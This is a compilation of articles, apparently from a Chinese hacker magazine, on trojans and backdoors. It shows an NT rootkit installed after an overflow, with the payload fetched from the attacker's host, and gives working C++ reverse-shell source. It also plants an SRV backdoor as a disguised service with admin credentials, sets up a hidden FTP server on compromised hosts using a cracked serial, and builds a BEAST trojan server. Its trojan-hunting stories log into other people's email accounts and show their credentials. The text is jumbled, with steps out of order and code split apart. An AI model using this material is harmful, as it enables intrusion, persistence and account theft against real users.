这样一来，当我们双击 `lock.reg` 时，电脑就无法运行任何 EXE 程序。若要恢复，只需双击另一个 `open.reg` 文件即可。该方法同样可以用于 TXT 关联保护。

```reg
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\txtfile\shell\open\command]
@="\"%1\" %*"
```

再建一个 `txtlock.reg`，书写如下：

```reg
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\txtfile\shell\open\command]
@="www"
```

如果想一次就保护 EXE 和 TXT 文件，可把相关 reg 文件合并。除 EXE、TXT 外，其他常用扩展名也可以按此思路控制打开权限。文末说明该示例主要针对 WinXP，Win98 需使用 REGEDIT4 格式。

小鱼儿

以前用木马登录远程主机时，常会因为文件传输能力不足而受限。为快速浏览和下载对方文件，通常需要额外部署 FTP 服务，过程复杂且容易暴露。作者因此推荐体积小、便于隐藏的 SlimFTPd。

### 一、SlimFTPd 的配置

SlimFTPd 是一个体积很小的 FTP 程序，配置核心在 `slimftpd.conf`。文中介绍其版本、目录文件组成与基本使用方式。

用记事本打开 `slimftpd.conf`，虽然是英文配置文件，但结构清晰：每段对应一个功能，先注释后配置。

```conf
# The BindPort directive specifies which TCP port should be used
# to listen for incoming connections. The standard FTP port is 21.
BindPort 21
```

以上配置表示 FTP 服务端口默认是 21。若为避开常见端口冲突或增强隐蔽性，可改为 0-65535 范围内其他端口（通常不建议低于 1025），如 1901。

进一步还需配置 FTP 用户。示例中创建用户、设置密码、分配目录与上传下载权限。

标准写法：

```conf
<User "trojans">
Password "nmbest.com"
Mount / D:\abc
Allow / Read List
Allow / upload
</User>
```

新手们在建立新用户的过程中，很容易犯些难以避免的错误，以下是常见的几种错误情况：

- 把 `Allow / Read List write` 写在同一行（应拆分权限项）
- 结尾缺少 `</User>`
- 缺少 `Mount /` 配置

```conf
<User "trojans">
Password "nmbest.com"
Mount / D:\abc
Allow / Read List upload
</User>
```

```conf
<User "trojans">
Password "nmbest.com"
Mount / D:\abc
Allow / Read List
Allow / upload
```

```conf
<User "trojans">
Password "nmbest.com"
Allow / Read List
Allow / upload
</User>
```

```conf
<User "anonymous">
Mount / C:\
Allow / Read List
</User>

<User "trojans">
Password "nmbest.com"
```

```conf
Mount / D:\abc
Allow / Read List
Allow / upload
</User>
```

因为这个软件是共享软件，如果不注册，一个 IP 就只能允许一个连接，即你只能单线程下载。但我们可利用他人破解的注册码来成为正式付费用户，注册码如下：

```text
name: www.chinaz.com
sn: AB9FD52611D17F52
```

输入注册码也是在配置文件 `slimftpd.conf` 中完成。修改前后如图 3、图 4 所示。

### 二、SlimFTPd 的安装和使用

如果你的配置文件写法正确，那么直接双击 `SlimFTPd.exe` 就可成功建立你的 FTP 服务器。运行成功后，系统中会出现相应进程（图 5）。如果想让它随系统启动，需要使用 `ServiceTool.exe`（图 6、图 7），安装后可在服务中看到该服务（图 8），卸载则点击 uninstall，禁用它就不会再启动了。

远程安装我们无法通过命令行来安装 SlimFTPd 服务。

### 三、SlimFTPd 的防范和清除

SlimFTPd 运行后，会在系统中留有 SlimFTPd 名称的进程，这样就很容易被我们发现。清除的方法是立刻终止该进程，然后检查自己的服务中是否也有该名称的服务，有的话立刻停止并禁用，最后找到主程序删除即可。

## 超级后门

killer

### rootkit 介绍

也许你会疑问，什么是 rootkit？其实这在 Unix 里早已不是新鲜的话题了。在 google 中输入“rootkit”会找到无数的相关资料，但这些基本都是 Unix 上的工具。比较出名的是个被称为 lkm 的工具，它利用操作系统的模块化技术，作为内核的一部分运行。由此可见它的强大和无与伦比的隐蔽性。一旦被安装运行到目标机器上，这个系统就会完全被控制，甚至系统管理员根本找不到安全隐患的痕迹。

rootkit 的原理是什么呢？简单地说，rootkit 就是把一些事先修改过的程序替换系统程序的一些程序。比如替换 shell/ps 等程序，使我们的后门进程在 ps 命令下不显示。同样在 NT 世界中，rootkit 含义已经被扩展和外延了，更加广泛的技术也将被应用在 rootkit 上。通常我们知道，fport 之类的工具可查看哪个程序打开了什么端口，pslist 可查看系统中的所有进程，甚至可查看系统中的服务检查是否被安装了后门，但 rootkit 的存在让这些工具统统失去了效果。总之，千万别认为我所说的 rootkit 是给管理员用的管理工具就可以了。

### yyt_hac's NT rootkit

后来因为过年，还是他一人完成了。very cool！在下面我会详细介绍及使用的。关于更多的 rootkit，如果你有兴趣，请到 google 中查找，或到 www.rootkit.com 找相关资料。

国货当自强（晕，引号喊到这里来了）！还是先来介绍一下功能：

- 无连接协议。就是说这个 rootkit 不开任何端口，可重用现有端口。一般后门明目张胆地开着端口，总把管理员当作不存在一般，导致辛苦搞来的肉鸡很快丢失。这个不开端口，安全了不少，你可选择四种数据封包——0: userdefined，1: icmp，2: udp，3: tcp，用来穿透你所遇到的防火墙。
- 可隐藏进程、隐藏文件、隐藏目录、隐藏服务、注册表项、隐藏用户、隐藏端口。
- 提供方便的升级方式。
- 提供 get/put 上传和下载命令，提供 openshell 打开远程 shell 功能。

下面，我就用一个简单实例来演示一下这个后门的应用。首先，我们得有目标主机的权限，或得到一个 shell，我就用 webdavx 溢出来配合演示一下：

- （1）先用 ISNO 的 webdavx3 来溢出远程主机（图 1）。

### 几个常见 NT rootkit

NT 下的 rootkit 发展一直缓慢，主要的原因自然是 MS 封锁 NT 架构，导致核心开发技术不广泛公开（所谓的源代码不公开有利于安全就是这个原因吧）。不过现在 Windows 2000 出来快四年了，世界上已有很多 rootkit 级别的后门。这与 Windows 95 出来四年后，Win9X 平台上 PE 加壳解密技术飞速发展惊人相似。下面我来介绍一下较常见的几个 rootkit：

- **hxdef073**  
  这是一个国外朋友开发的 rootkit，主页是 http://rootkit.host.sk/。它可隐藏进程、隐藏系统服务、隐藏文件、隐藏目录，支持通配符。
- **delphi_nt_root_kit**  
  这是国外一个朋友用 DELPHI 写的简单 rootkit，可在 http://www.projectj.comnet.com 看到它的消息。它默认通过一个 loader 程序将 hook.dll 插入到 Explorer.exe 进程中间，实现隐藏技术。它同样可隐藏文件和注册表键值，功能比上一个要少。开放源代码，比较难得。
- **rk_044**  
  来自 http://www.rootkit.com，同样是内核级后门，有远程 SHELL、隐藏进程等功能，有键盘 sniffer 功能。同样难得的是开放源代码。
- **ntrootkit**  
  yyt_hac（http://www.yythac.com）在去年就开始策划并编写的 rootkit。当时我们准备成立一个安全小组来作这些事情，后来因为过年，还是他一人完成了。

图 1

- （2）然后连接到目标主机的 7788 端口，并本地打开 TFTP 服务端，执行 TFTP 来下载本地文件；在文件下载完成后，执行 ntrootkit 来安装后门（图 2、图 3）。

```bat
D:\hack>nc -vv 192.168.0.12 7788
WIN2K [192.168.0.12] 7788 (?) open
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>ftp -i 192.168.0.1 get ntrootkit.exe
C:\WINNT\system32>
C:\WINNT\system32>ntrootkit.exe
This is yyt_hac's ntrootkit server 1.1
Welcome to http://www.yythac.com

Extracting files...ok
Installing service..ok
Starting up The NrootKit..ok

The Nrootkit is installed and started successfully!
```

```text
172   winlogon.exe
228   services.exe
240   lsass.exe
440   svchost.exe
472   spoolsv.exe
504   msdtc.exe
616   VPCSRV.C.EXE
```

如果我们想把 SMSS.EXE 这个进程 KILL 掉，执行 `kill 148` 就可以了。

- （5）打开远程 SHELL，你可用 `fport/pslist` 来查看，会发现找不到这个 rootkit 的痕迹，并且系统服务中也看不到任何改变！

```bat
CMD>openshell
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>
```

为减少篇幅，我简单说一下常用的命令：

- `HideFileDir [FileName or DIR]`——隐藏文件或者目录
- `HideProcId [pid]`——隐藏进程
- `HideKey [KeyName]`——隐藏键名
- `HideValue [ValueName]`——隐藏键值
- `HideUser [UserName]`——隐藏用户
- `HideServ [ServiceName]`——隐藏服务
- `Get RemoteFilePath [LocalFilePath]`——下载远程机器上的文件，需要写全路径
- `Put LocalFilePath [RemoteFilePath]`——上传本地机器上的文件放到远程，同样需写全路径
- `SetPass [NewPassword]`——修改 ntrootkit 密码
- `Reboot`——重启
- `Exit`——退出 shell 或者 ntrootkit
- `OpenShell`——开命令窗口
- `Ps`——查看系统进程
- `Kill pid`——终止系统进程

- （3）确认后门安装成功后，就可用 EXIT 命令退出远程 shell 了。开始本地连接，连接成功后，可在 `cmd>` 上输入 `?` 来查询命令，输入你要做的操作。

```text
D:\hack>rtclient 192.168.0.12
This is yyt_hac's ntrootkit client 1.1
Welcome to http://www.yythac.com

Getting ip address of the computer...
1. 192.168.0.1
2. 218.8.103.120
3. 192.168.229.1
4. 192.168.124.1
Please select the number of the ip address you want to use and recv packet:
Please select proto(0:userdefined,1:icmp,2:udp,3:tcp):0
Please input password:yyt_hac

Welcome to yyt_hac's ntrootkit Server 1.1, use '?' command to get command list
CMD>
```

- （4）查看一下系统进程，并把 `smss.exe` 这个进程终止掉，可以这样做。

```text
CMD>ps
ProcessID   ProcessName
0           [System Process]
8           System
148         smss.exe
176         csrss.exe
```

需要说明的是，这里的隐藏命令支持通配符，你可成批隐藏。如果把每个命令都演示一下，上头肯定要大骂我骗取稿费了。所以这里我就不举例子了，不过你可以开阔思路，比如把网站改造成一个 FTP 服务器，然后用这个 ROOTKIT 来隐藏 FTP 服务进程，以及注册表键值。

如果需要移除 ntrootkit，你只需执行如下命令：

```bat
C:\WINNT\system32>ntrootkit -u
This is yyt_hac's ntrootkit server 1.1
Welcome to http://www.yythac.com

Please enter your password:yyt_hac
Please wait a minute...

Uninstallation is finished, you must reboot the computer to exit ntrootkit!
```

这样在重新启动后，就移除 rootkit 了。

rootkit 的世界是丰富多彩的，如果你对这种核心技术有兴趣，需要认真学习系统核心的编程。完美的后门、永久的肉鸡——是每个安全朋友的梦想，欢迎有想法的朋友来指点和讨论，更多的命令介绍和详细说明，请参考作者的说明。

速度，越来越慢，越来越慢……不对头！虽说我的配置差，但也不至于慢到这个地步。于是关掉所有的网络连接，静静地等待。突然大猫的数据灯狂闪了几下又不动了，是入侵还是木马？立即关掉大猫，切断网络连接。细细回想：如果是入侵，为了保持连接，来往的数据肯定不会间断。既然有流量，那么猫的数据灯也不会灭。看来很可能是木马。反正闲着也是闲着，不如来次大扫荡！

### 木马大追踪

### 一、进程

寻踪觅迹最好还是从进程开始。什么是进程？我觉得刚刚接触系统的朋友有必要了解一下这个知识点。进程是正在运行的程序的一个实例。系统中，可能一个程序有多个运行的实例，它们各自独立地运行着。一个进程能产生子进程，产生子进程的进程也叫父进程。这和面向对象中的继承不同：面向对象中，我们可以在不产生父类实例的情况下产生子类实例；而要产生子进程必须首先产生父进程，同时子进程可使用父进程的资源。查看进程一般使用 Win2K（2000 系统下）自带的任务管理器。通过对当前进程的查看，发现两个很可疑的进程——EXPLOREA.EXE 和 WINLOGO.EXE（图1）。


图1

粗看起来好像这两个文件是系统自带的，其实不然。这两个文件名都和系统文件名相似，这也是木马常用的伪装伎俩。发现马脚了，我们要扩大战果。

### 二、分析

分析的目的是为了获取一个木马的基本特征码以及更好地了解木马。这里我们只做简单的分析。先用 PE-SCAN 查看一下木马有没有加壳（图2）。果然是用 ASPROTECT 加的壳，用 AsprStripperXP 解掉壳。然后用 WinHex 来打开 EXPLOREA.EXE，打开后左边显示的是 16 进制代码，右边显示的是 ASCII 码，寻找木马的蛛丝马迹就要靠这 ASCII 码了。仔细察看 ASCII 码，发现有 QQ 杀手、QQPASS6.8、mima 等字样，并且还有些注册表内的路径。在注册表路径下发现有 yonghu_ming、yonghu_mima 等字样，可以肯定这个木马就是 QQ 杀手 6.8 了。用同样的方法对 WINLOGO.EXE 进行查看，发现 WINLOGO.EXE 并没有加壳，用 16 进制编辑器打开文件，在 ASCII 中发现“灰鸽子”字样……


图2


图3

### 三、搜索


图4

搜索的目的是为了掌握目前系统被破坏的程度。对木马的搜索一般依据时间、大小或关键字来进行。先搜索 EXPLOREA.EXE，其大小为 104 KB（106,496 字节），把条件放宽松点，搜索就按 110K 作为标准吧！按文件大小搜索完成后，与 EXPLOREA.EXE 大小相同、图标相同的文件基本上都在 C 盘根目录了（图4）。然后继续搜索关键字“yonghu_mima”，搜索结果只有一个文件——qq.exe，该文件大小 156K，并伪装成一个 Flash 文件；它比我们发现的木马文件要大，有可能是母体，马上我们就来分析（图5）。

送了用户密码的 Base64 编码 enJsMTQyOA==。将所有的 Base64 编码还原，结果如下：

```text
mima_wenjian: 无
fuwuqi: smtp.163.com
jieshou_youxiang: bands@163.com
yonghu_ming: bands
yonghu_mima: zrl1428
smtp_biaozhi:
fasong_zhuti: QQ密码
```


图5

一切都明朗化了，直接用得到的资料登录邮箱，删除刚刚木马发过去的资料，查看用户资料，发现真实名称填写得很完整。好，备案待查！回过头来我们要清除掉这个木马。从分析时发现，在注册表项里 QQ 杀手这个木马更改了 TXT、SCR、CHM、REG、INI、EXE 等众多文件的关联，并且它还将自身加载到系统服务中以便开机启动，在注册表的 RUN 子键里也有它的路径（图7）。

### 四、QQ杀手的利用与清除

QQ.EXE！是的，这个是木马的母体，刚才发现的那些 104K 文件就是它释放的。QQ 杀手是通过 E-Mail 发送盗取的 QQ 密码，那么用于 SMTP 验证的邮箱密码就保存在母体中。用 16 进制编辑器打开 QQ.EXE，在程序的最尾部可看到图6所示的东西（图6）。


图7

确定这些之后就开始动手清除吧！将下面的内容保存为 REG 文件，然后导入注册表恢复文件关联。


图6

把它们整理一下，就是下面的样子：

```text
mima_wenjian: zl4=
fuwuqi: c210cC4zNjM6Y29t
jieshou_youxiang: YmFuZDNA...
yonghu_ming: YmFuZDU=
yonghu_mima: jmlSIB7M4IC?
smtp_biaozhi:
fasong_zhuti: UVHD3MLr
```

可以看出，它们大部分是使用 Base64 的编码方式加密的，唯独只有 yonghu_mima 这个不是。这一句恰恰又是关键，Base64 编码转换都好说，这个看来只有交给木马自己来还原成 Base64 编码方式了。用 x-way2.6 的嗅探器功能监听 25 端口，使用 QQ 登录，马上嗅探器有反应了，在经过了与 SMTP 服务器的连接后，木马发……

```reg
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\txtfile\shell\open\command]
@="%SystemRoot%\\system32\\NOTEPAD.EXE %1"

[HKEY_CLASSES_ROOT\chm.file\shell\open\command]
@="%SystemRoot%\\HH.EXE \"%1\""

[HKEY_CLASSES_ROOT\exefile\shell\open\command]
@="\"%1\" %*"

[HKEY_CLASSES_ROOT\inifile\shell\open\command]
@="%SystemRoot%\\NOTEPAD.EXE %1"

[HKEY_CLASSES_ROOT\scrfile\shell\open\command]
@="\"%1\" /S"
```

在子键 `[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]` 下删除一个没有任何命名规则的键（与木马 EXE 文件名相同的即是）。在 `[HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\XXXXXX]`、`[HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Services\XXXXXX]`、`[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\XXXXXX]` 这三个键下删除一个与木马服务名相同的子键（XXXXXX 是随机生成的服务名）。例如我这里的是 oEymEnO，具体名称请参照你计算机管理内的服务名。然后删除所有的 104K 的木马文件。重启计算机，QQ 杀手木马清除完毕。

### 五、移花接木治鸽子

现在剩下的只有灰鸽子了。灰鸽子有两种连接方式：自动上线和被动上线。自动上线即运行木马服务端的机器通过域名定位与控制端连接；被动上线即控制端主动连接运行了木马机器的特定端口。现在来判断一下这个灰鸽子是使用的什么方式连接。

使用 `netstat -an` 命令查看，没有发现异常端口，却发现我有一个端口在尝试与一个 IP 的 8001 端口连接（图8）。


看来是使用的自动上线方式了。要使鸽子连接我而不去连接下马的人，我必须弄清楚它使用了什么域名来定位。利用嗅探器来抓几个包看看吧（图9）！


它使用了 3 个域名来定位：`http://www.XXjk.com/IP.JPG`，这个 JPG 文件打开后会显示下马人的 IP；`XX3389.3322.ORG`，这个域名经过 DNS 解析后，与上面的 IP 相同；`http://XX3389.yeah.net`，这个页面指向的同样也是下马人的 IP。

清楚了这些以后，问题似乎好办多了。它不就是要这 3 个地址的 IP 吗？我就本地解析满足你这个要求。为防止出错，还必须使用 IIS 的 WEB 服务来伪造 URL。

首先，改写本地的 hosts 文件（我的 Win2000 文件路径为：`C:\WINNT\system32\drivers\etc\HOSTS`），用记事本打开 hosts 文件，在最后面加上（192.168.0.2 是我自己的固定 IP）：

- `192.168.0.2 www.XXjk.com`
- `192.168.0.2 XX3389.3322.ORG`
- `192.168.0.2 XX3389.yeah.net`

然后保存。这样，灰鸽子在解析 DNS 时就全部指向我自己的本机 IP 了，XX3389.3322.ORG 需要的条件满足了。现在再来满足 www.XXjk.com 的条件，www.XXjk.com 域名下要打开一个 JPG 文件，这个文件会显示下马人的 IP。在 `C:\Inetpub\wwwroot` 下新建一个文本文件，在里面写入 `HTTP://192.168.0.2/`，然后保存并改名为 `IP.JPG`。在 WEB 管理界面配置该目录的应用程序映射，添加 JPG 扩展名，可执行文件为 `C:\WINNT\system32\inetsrv\asp.dll`，动作为 GET（图10）。


添加好以后，访问 `HTTP://192.168.0.2/IP.JPG`（图11）。


跟真的一样！OK，这个也解决了。还剩下 XX3389.yeah.net，它是个跳转页面，这也好办。进入 web 管理，新建一个站点，在 IP 地址与端口设置那一步为站点设置一个主机名，这个主机名就是 XX3389.yeah.net（图12）。


图13

后面的都可随便了！创建好站点后，还要去设置站点跳转。选择新建的站点查看属性，在主目录页面选择重定向到 URL，在下面填入 `http://192.168.0.2` 就可以了。现在，一切都准备好了！下载一个灰鸽子运行控制端，还没完全运行完，一个甜美的女声向我报告“有主机上线，请注意”。进入后发现他的鸽子果然连上了我的鸽子（图13）。

在远程控制命令的“其他控制”里，有一个“自动卸载服务端”按钮，要杀要剐你自己就看着办吧！忙活了一个多小时，两个木马就搞定了，外带还附送了一个 E-mail 和几个 QQ 号码！我的灰鸽子服务端没有删除，有时自己控制自己也蛮好玩的！如果你对系统不是很了解，我劝你还是删了好，一旦被人控制，后果谁也说不上来！

（文中所用到的软件 PE-SCAN、AsprStripperXP、WinHex、x-way2.6、灰鸽子，在光盘中有收录）

最近玩传奇，为找一个好用的外挂而费尽心机，试了十几个之后终于找到一个好用且免费的外挂。但令人不幸的是，不久后我的传奇号就被盗了。不过由于我的密码保护问题和答案都记住了，所以很快就把密码给找回来了。但我的“冥王权杖、魔杖和 100 万”都被人给盗走了，想起这个就气得我咬牙切齿。


由于我把这个外挂传给我朋友用，他们没出现盗号的问题，所以我确信一定是试用的某个外挂中加入了木马。我首先用升级到最新版的瑞星杀毒，没问题，难道瑞星也查不出来？那这个木马难道法外吗？以前经常阅读《黑客X档案》，这点小事应该难不倒我。

木马一般会把自己添加到启动项中，一开机就自动运行，所以我用 Ctrl+Alt+Del 一下就发现后台有个 Lmir.exe 程序在运行。看起来这是个专盗传奇号的木马，那它在系统中生成的文件名一定含有 mir 三个字母。用 Win+F 查找 mir，找到 Lmir.exe、Finalmir.exe 和 Comir.exe 这三个文件。


图1

既然文件中有下木马人的信息，那就好办了。用 16 进制编辑器 UltraEdit 打开三个文件一看，发现这三个文件不仅内容一样，而且文件大小也一样，这说明三个文件是一体的，只要其中一个文件在，它就会自动生成另外两个文件，让你杀不了它。

用 UltraEdit 打开一个文件，由于数据太多，而且右边的文本内容乱码繁多，得用人眼去甄别，看了 10 多分钟后，我放弃了。但不能就这样放弃。我想既然发现的是文本内容，那可不可以用记事本打开来看呢？动手用记事本打开其中一个文件，果然比十六进制方便。


图2

但瑞星并没有查出来，说明这个木马是最新版或者是经过改造的，而且瑞星并没说明是哪个木马运行后生成的，这让我很失望。如果知道是哪个木马的话，我就可把它下载下来，运行其配置文件，有可能会显示木马人的信息，但却令人遗憾。15.38 版的瑞星已经可查出这种木马了，所以未升级的朋友赶快升级吧！

哈哈！看来这就是那人用来收密码的账号和密码了，还是明文显示（由于没有找到具体是哪里的信箱，所以只好先随便试试）。有经验的朋友一定会知道，在密码发送这项功能上，163.com 做得很出色，所以很多“黑客”都喜欢用 163 的信箱来接收密码。于是马上上 163，进入邮箱（图3），盗的号还不少，不管它，我又不想盗别人的号，这些对我没用。


得到这些信息后，立即改掉他的密码。有人会说密码他可改回来。是的，但前提是他没有设 163 的安全码，所以我可以放心地改密码。

现在可详细查看他的邮件了，也许不太道德，但也是无奈之举。从中找到他和他妹妹的照片，从照片看他也不像个坏人，然后又得到图5所示信息。

看来这是他用于注册传奇密码终结者的用户名和密码，那密码会不会就是邮箱密码呢？试一下，进去了。如法炮制，密码和提示问题均被我改掉。看来这人是个菜鸟，毕竟才 20 岁。从这个邮箱中得到他更为详细的个人信息（图6）。

从他的信箱中我找到了图7所示的内容，看来他虽然年纪轻轻，但干的坏事却不少，盗了那么多装备，可恨！我根据他的个人信息，打电话到他家找到他，但他不承认，说是把信箱给同学了。后来再打时，他求我不要打电话到他家，他父母知道会骂他。我想东西确实也不是很好找回来，打电话还得浪费我的钱，就没再追究了。也不知现在国家有没有相关法律，要不然我定会把这些材料上报给公安部门！

希望我的小经验能给大家提供一些新的思路和方法，在碰到类似的问题时能有所对策，而不是干着急！

### 反弹端口技术及其应用

“反弹端口”这个词，好像是因为木马而产生的。提到反弹端口木马，大家都会想起网络神偷、灰鸽子以及近段时间出现的 PEEP 和“广州男生”。简单来说，反弹端口就是被控端主动连接控制端，跟以往的冰河等木马相比，实际是一种反向连接。

正因如此，即使被控端处于局域网内也没关系。现在我们来实现一个简单的反弹端口，并取得一个 Shell 程序，通过这个程序我们也就可对反弹端口技术有一个形象的了解。首先，要让被控端主动连接控制端。

```cpp
void main(int argc, char **argv)
```

```cpp
WSADATA wsa;
int ret;

if(argc != 3)
{
    ...
}
```

```cpp
cout<<"用法:\nrgiveshell 目标IP 目标端口\n";
return;

sockaddr_in ClientAddr, ServerAddr;

WSAStartup(MAKEWORD(2,2), &wsa);

// 创建一个socket
ClientSock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

ClientAddr.sin_family = AF_INET;
ClientAddr.sin_port = htons(0);
ClientAddr.sin_addr.S_un.S_addr = htonl(INADDR_ANY);

// 绑定这个socket
if((ret=bind(ClientSock, (sockaddr*)&ClientAddr, sizeof(ClientAddr)))==SOCKET_ERROR)
{
    cout<<"can't bind socket\n";
    return;
}

ServerAddr.sin_family = AF_INET;
ServerAddr.sin_port = htons(atoi(argv[2]));
ServerAddr.sin_addr.s_addr = inet_addr(argv[1]);

// 连接控制端
if(connect(ClientSock,(struct sockaddr*)&ServerAddr,sizeof(ServerAddr))==SOCKET_ERROR)
{
    cout<<"Connect error!!!"<<endl;
    return;
}

GiveShell(); //连接成功后的处理
```

反向连接其实跟一般的网络客户端程序的编写没什么区别。怎样拿到 Shell 呢，关键在于连接成功后的处理。基本思路是这样的：首先在被控端为 cmd.exe（95/98/me 下是 command.exe）创建一个进程，然后再创建两个匿名管道来与控制端的输入进行信息交互。

```cpp
SOCKET ClientSock;
```

```cpp
void GiveShell()
{
    char Buff[1024];
    SECURITY_ATTRIBUTES sa; // 创建管道所用
    OSVERSIONINFO osvi;      // 包含操作系统版本信息
    osvi.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);

    sa.nLength = 12;
    sa.lpSecurityDescriptor = 0;
    sa.bInheritHandle = true;

    HANDLE hReadPipeOne, hWritePipeOne, hReadPipeTwo, hWritePipeTwo;

    /* 创建一个读管道和一个写管道 */
    CreatePipe(&hReadPipeOne, &hWritePipeOne, &sa, 0);
    CreatePipe(&hReadPipeTwo, &hWritePipeTwo, &sa, 0);

    /*
      根据不同的操作系统创建一个shell进程；
      用第二个管道的读句柄替换shell的输入；
      用第一个管道的写句柄替换shell的输出。
    */
    STARTUPINFO si;
    ZeroMemory(&si, sizeof(si));
    si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    si.hStdInput = hReadPipeTwo;
    si.hStdOutput = si.hStdError = hWritePipeOne;

    GetVersionEx(&osvi);
    char *Shell;
    switch(osvi.dwPlatformId)
    {
      case ...: //95、98、ME
        Shell = "command.exe";
        break;
      default:
        Shell = "cmd.exe";
        break;
    }

    PROCESS_INFORMATION ProcessInformation;
```

```cpp
// 为SHELL创建一个进程。
CreateProcess(NULL, Shell, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);

unsigned long lBytesRead;
send(ClientSock, "反向连接成功! 回车键确认...", 26, 0);

while(1)
{
    /*
      PeekNamedPipe异步查询管道，看shell是否有输出。
      如果有就用ReadFile读入管道并发送到控制端；否则就去接收。
      客户端输入先WriteFile写入管道并传递给shell。
    */
    PeekNamedPipe(hReadPipeOne, Buff, 1024, &lBytesRead, 0, 0);
    if(lBytesRead)
    {
      ReadFile(hReadPipeOne, Buff, lBytesRead, &lBytesRead, 0);
      send(ClientSock, Buff, lBytesRead, 0);
    }
    else
    {
      lBytesRead = recv(ClientSock, Buff, 1024, 0);
      if(lBytesRead<=0) break;
      WriteFile(hWritePipeTwo, Buff, lBytesRead, &lBytesRead, 0);
    }
}

return;
```

以上代码在 VC++6.0/Win2K 下编译通过，生成的可执行文件经过 ASPACK 压缩之后大小为 35KB，请与 nc 配合使用。具体过程如下：

在控制端执行 `nc -l -p 监听端口`，然后在被控端上执行本程序：`giveshell 控制端IP 控制端nc所监听的端口`。反弹连接成功后，控制端会有信息提示，可以控制局域网内通过 NAT 代理上网的机器。

（本文的完整代码及生成的可执行文件光盘中有收录）

### 新后门 SRV 使用手记

前几天在网站上溜达，无意中发现了这个新后门工具——SRV。名字和后门好像没多少联系，但程序可在内网运行后开启端口并可远程连接。试用后感觉不错，因此整理经验分享。

- 1. 如果对方主机没有重新启动，注册在 `Run` 键值中的后门可能不会执行。
- 2. 主机注销后，已执行的 `Run` 项后门会终止。
- 3. `Run` 方式权限受限，通常只有 `Guest/User` 级别；若以服务方式运行可获得 `LocalSystem` 权限。

因此将 SRV 注册为服务更隐蔽、更稳定。文中借助 `ntservice` 来实现，并给出配置示例与执行步骤。

右栏详细解释了 `ntservice.ini` 中的关键字段：如 `LogEnable`、`ProcCount`、`[Process0]`、`CommandLine=srv.exe`、`UserInterface=No` 等，并说明可通过 `[Process1]...[ProcessN]` 扩展多进程启动。

```ini
[Process2]
CommandLine = happy.exe
PauseStart = 1000
PauseEnd = 1000
UserInterface = No

[Process3]
CommandLine = happy1.exe
PauseStart = 1000
PauseEnd = 1000
UserInterface = No

[ProcessN]
CommandLine = happyn.exe
PauseStart = 1000
PauseEnd = 1000
UserInterface = No
```

> 注意：`[ProcessN]` 中的 N 不应超过 20，即最多可注册约 21 个后门进程为服务。

### 步骤一

将 `ntservice.exe` 与 `ntservice.ini` 放在同一目录，先根据需求修改配置，再执行注册操作。

```ini
[Settings]
ServiceName = Application
LogEnable = 0
ProcCount = 2

[Process0]
CommandLine = srv.exe
PauseStart = 1000
PauseEnd = 1000
UserInterface = No

[Process1]
CommandLine = heidan.exe
PauseStart = 1000
PauseEnd = 1000
UserInterface = No
```

文中建议将 `ServiceName` 改为更具迷惑性的服务名，并保留 `Process0` 即可将 SRV 注册为服务。


执行 **ntservice.exe -install**，这样 ntservice 这个服务就被安装进系统了。然后执行 **net start ntservice**，这样服务就被启动了（注意：这个 ntservice 即是配置文件 “ServiceName =” 后面的项目，如果将 ntservice 修改为 heidan，那么就用命令 **net start heidan**）。服务被启动后，就会读入配置文件（ntservice.ini），去启动里面要执行的程序。OK！图1是我配置好的 ini 文件内容。

```bat
net time \\61.186.*.*
```

安装完成后还需要启动服务（图5）：新增了一项作业，其作业 ID = 1。


OK！输入 **at \\61.186.*.*** 命令查看是否有 NTService 这个服务。哈哈！好了！完全启动了（图6）。


### 步骤二

把 ntservice.exe、ntservice.ini、srv.exe 这三个文件一起传到肉鸡上。打开 CMD 命令行，先建 IPC$ 连接 **net use \\61.186.*.*\ipc$ "hacker" /user:administrator**（图2）。


下面复制那三个文件（图3）：

- `copy ntservice.exe \\61.186.*.*\admin$\system32\`
- `copy ntservice.ini \\61.186.*.*\admin$\system32\`
- `copy srv.exe \\61.186.*.*\admin$\system32\`


接下来得到对方系统的时间（图4）：


### 步骤三

后门隐藏好了，下面进入吧！用命令 **telnet 61.186.*.* 5188**，回车后即可进入（图7）。


过瘾吧！不易查杀的后门再加上已注册为服务的特性，简直就是如虎添翼，以后你的肉鸡就不会再丢失了，还等什么，快去 DIY 一把吧！


钟毅榕

在以往的《黑客X档案》中，给大家介绍的大多都是国产木马。其实，国外的木马不论在技术还是功能上，也是毫不逊色的。近日在网上发现了一款非常不错的国外新木马——BEAST，独乐乐不如众乐乐，下面就为大家介绍一下！

## 一、功能特色

BEAST 的最新版本是 V2.01，在文件和注册表等管理上都非常容易操作，而且该木马还具有线程插入技术，所以很不容易被查杀。程序刚开始运行时，木马会将自身的进程插入到 winlogon.exe（Win9x 则是 systray.exe），然后从 winlogon.exe 再注射到 explorer.exe 或 Internet Explorer。这样，像“天网”之类防火墙中的“应用程序访问网络权限设置”的防火墙规则对它就不太好拦截。

## 二、生成服务端

虽然很多黑客网站上都有这个软件的汉化版本，但我用了一下在黑白网络下载的汉化版，发现许多地方都汉化得不是很好，而且在使用某些功能时需要点击那个功能按钮两次才能生效，并且点击后该按钮又会变回原来的英文。所以下面的说明笔者还是以英文版说明为例，大家可以到 BEAST 的官方网站下载得到。下载解压后，文件夹里只有一个 EXE 文件，这就是 BEAST 的客户端。和黑洞等木马一样，我们要利用客户端来生成服务端。打开 BEAST 后（图1），页面很漂亮，接着我们就可开始进行服务端的设置了。


点击 “Build Server” 按钮，出现图2所示的界面，在这里我们对 BEAST 的服务端可进行非常详细的设置，我就挑些重点来分别给大家说一下！


图 2

